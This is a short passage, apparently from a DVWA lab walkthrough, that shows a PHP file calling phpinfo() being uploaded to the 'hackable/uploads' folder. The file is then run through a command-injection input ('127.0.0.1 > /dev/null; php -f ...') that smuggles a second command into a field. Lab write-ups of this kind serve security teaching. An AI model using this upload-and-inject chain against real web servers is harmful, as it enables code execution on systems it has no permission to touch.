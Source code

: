 ### File Upload

create 1.php

```php
<?php 
echo "Hi";

phpinfo();
?>
```

upload php file to ../../hackable/uploads

![alt text](images/photo_10.jpg)

execute php file

```bash
127.0.0.1 > /dev/null; php -f ../../hackable/uploads/1.php
```

output

![alt text](images/photo_11.jpg)
